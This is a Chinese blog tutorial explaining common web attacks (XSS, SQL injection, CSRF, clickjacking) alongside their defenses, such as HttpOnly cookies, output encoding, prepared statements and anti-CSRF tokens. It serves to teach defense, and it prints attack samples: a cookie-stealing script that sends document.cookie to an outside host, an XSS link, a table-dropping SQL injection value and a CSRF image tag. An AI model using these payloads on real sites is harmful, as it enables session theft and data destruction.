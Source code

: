 ```yaml
---
layout: post
title: "Web安全技术(4)-常见的攻击和防御"
date: 2015-04-25 22:32
categories: ["Web", "安全"]
---
```


对于一个Web应用来说，可能会面临很多不同的攻击。下面的内容将介绍一些常见的攻击方法，以及面对这些攻击的防御手段。

一、跨站脚本攻击（XSS）
-----------------------

跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。发生的原因是网站将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行。

跨站脚本攻击可以分为两种：

__1). 反射型XSS__

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

    http://a.com/a.jsp?name=xss<script>alert(1)</script>

a.jsp将页面渲染成下面的html：

    Hello xss<script>alert(1)</script>

这时浏览器将会弹出提示框。

__2). 持久型XSS__

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

### Cookie劫持 ###

Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常见的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

    http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>

用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

    var img = document.createElement("img");
    img.src = "http://b.com/log?" + escape(document.cookie);
    document.body.appendChild(img);

上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

__防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。__

### XSS的防御 ###

__1). 输入检查__

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。一般前后端都做检查，这样前端可以挡掉大部分无效数据。

对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。

__2). 输出检查__

对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

另外还可以使用一些做XSS检查的开源项目。

二、SQL注入
-----------------------

SQL注入常常会听到，它与XSS类似，是由于用户提交的数据被当成命令来执行而造成的。下面是一个SQL注入的例子：

    String sql = "select * from user where username = '" + username + "'";

像上面的SQL语句，如果用户提交的username参数是leo，则数据库执行的SQL为：

    select * from user where username = 'leo'

但如果用户提交的username参数是leo'; drop table user--，那执行的SQL为：

    select * from user where username = 'leo'; drop table user--'

在查询数据后，又执行了一个删除表的操作，这样的后果非常严重。

### SQL注入的防御 ###

防止SQL注入最好的方法是使用预编译语句，如下面所示：

    String sql = "select * from user where username = ?";
    PreparedStatement pstmt = conn.prepareStatement(sql);
    pstmt.setString(1, username);
    ResultSet results = pstmt.executeQuery();

不同语言的预编译方法不同，但基本都可以处理。

如果遇到无法使用预编译方法时，只能像防止XSS那样对参数进行检查和编码。

三、跨站请求伪造（CSRF）
-----------------------

跨站请求伪造的英文全称是Cross Site Request Forgery，是由于操作所需的所有参数都能被攻击者得到，进而构造出一个伪造的请求，在用户不知情的情况下被执行。看下面一个例子：

如果a.com网站需要用户登录后可以删除博客，删除博客的请求地址如下：

    GET http://a.com/blog/delete?id=1

当用户登录a.com后，又打开了http://b.com/b.html，其中有下面的内容：

    <img src="http://a.com/blog/delete?id=1"/>

这时会以用户在a.com的身份发送http://a.com/blog/delete?id=1，删除那篇博客。

### CSRF的防御 ###

1. 验证码

CSRF是在用户不知情的情况下构造的网络情况，验证码则强制用户与应用交互，所以验证码可以很好得防止CSRF。但不能什么请求都加验证码。

2. referer检查

检查请求header中的referer也能帮助防止CSRF攻击，但服务器不是总能拿到referer，浏览器可能出于安全或隐私而不发送referer，所以也不常用。倒是图片防盗链中用得很多。

3. Anti CSRF Token

更多的是生成一个随机的token，在用户提交数据的同时提交这个token，服务器端比对后如果不正确，则拒绝执行操作。

四、点击劫持（ClickJacking）
-----------------------

点击劫持是从视觉上欺骗用户。攻击者使用一个透明的iframe覆盖在一个网页上，诱使用户在该网页上操作，而实际点击却是点在透明的iframe页面。

点击劫持延伸出了很多攻击方式，有图片覆盖攻击、拖拽劫持等。

### 点击劫持的防御 ###

针对iframe的攻击，可使用一个HTTP头：X-Frame-Options，它有三种可选值：

- DENY： 禁止任何页面的frame加载；
- SAMEORIGIN：只有同源页面的frame可加载；
- ALLOW-FROM：可定义允许frame加载的页面地址。

针对图片覆盖攻击，则注意使用预防XSS的方法，防止HTML和JS注入。
